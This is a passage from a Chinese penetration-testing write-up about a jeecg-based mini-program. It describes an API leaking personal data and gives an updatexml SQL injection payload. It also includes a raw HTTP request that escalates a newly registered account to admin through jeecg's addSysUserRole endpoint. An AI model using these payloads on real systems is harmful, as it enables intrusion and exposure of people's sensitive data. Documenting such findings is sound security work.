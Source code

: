 6、通过findsomething插件，得到了好几个tableName的接口，然后直接使用bp去访问，发现一个接口直接泄露了四百多个数据表格名称  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9HAmbIuulJsUYnqyRaHfichQXBnNGqksdVk5Jia1xPM6HotCDObol1icvQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
然后每个表里面都泄露了好几百个个人敏感信息，比如身份证、手机号、姓名之类的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9HJk7u8viaK8b5L6yd9RgxykxCohZfdwEguo6OL7iaYjWonLhfEqt4gcA/640?wx_fmt=png&from=appmsg "")  
  
  
### 四、SQL注入漏洞  
  
  
这个小程序的一个接口还存在SQL注入漏洞，通过测试，直接可以注入出数据库名称，直接又一个SQL注入到手了  
  
```
SQL注入payload：updatexml(1,concat(0x7e,user(),0x7e),1)
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9RFRLBwta29JNR8LbZnxYDzRhuLEkvicd6muWPlBicqKIIu6X0XezDU9w/640?wx_fmt=png&from=appmsg "")  
  
### 五、提权操作  
  
  
师傅们，其实测试到这里，这个系统小程序和web端都摸熟悉了，就是jeecg的系统框架，里面的很多接口都是jeecg开发默认的接口名称，但是前面的路径发生了一点变化，没有原班直接拿jeecg的接口使用，但是经过FUZZ测试出来了很多接口，这里给师傅们分享下，我先注册一个账号，然后提权到admin管理员账号的过程。  
  
  
首先我使用register注册接口，注册一个账号  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9rSgBrTs2nkoV2SekImF2VLX70UdicWEiaI7ekc68MBX36dQEjkRLPmDg/640?wx_fmt=png&from=appmsg "")  
  
  
  
下面就是提权的一个操作了，需要再次FUZZ接口，因为打jeecg漏洞多的师傅们，都知道，jeecg有很多的接口，像什么注册、查信息，查user_id，查所以账号的token值，还有用户敏感信息等，但是现在很多系统都不会直接拿jeecg都路径接口部署了，多多少少会进行魔改  
  
  
这里首先需要查询管理员admin的账户ID  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9WfWPn2VHP0MSSP95JtUhzqW0Tt2kx9nVVgKzlHXPJErmbwfiaI4Nk3g/640?wx_fmt=png&from=appmsg "")  
  
  
  
然后查询自己刚才创建用户的ID值  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWYqyJBSm3GBzeNhSjmhtM9FRpoF89TRHvciaNIhPkCXJcpYQKr8ucPHUuVdpw8UYL0qsiaib5vVoyiaA/640?wx_fmt=png&from=appmsg "")  
  
  
  
然后使用打提权使用的jeecg漏洞poc，如下：  
  
  
//roleld填写需要提权的角色id userldList填写自己的id  
  
```
POST xxxxx/jeecg-boot/sys/user/addSysUserRole（jeecg接口，需要自己去尝试，不一定是我这个） HTTP/1.1Host: Cookie: cna=Ov9SH4RxGiACAf////9C18zbUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0Accept: application/json, text/plain, */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateX-Access-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE3MjUzNzMyNDMsInVzZXJuYW1lIjoiMTEwMTAyIn0.NXRckymfKdZvEFsDQZ9Jwvk_rU_gVny2Rx6ATenant-Id: 0Origin:Dnt: 1Referer: Sec-Fetch-Dest: emptySec-Fetch-Mode: corsSec-Fetch-Site: same-originPriority: u=0Te: trailersConnection: closeContent-Type: application/jsonContent-Length: 96{"roleId":"xxxxxxxxxxx","userIdList":["xxxxxxxxxxxxxxxx"]}
```  
  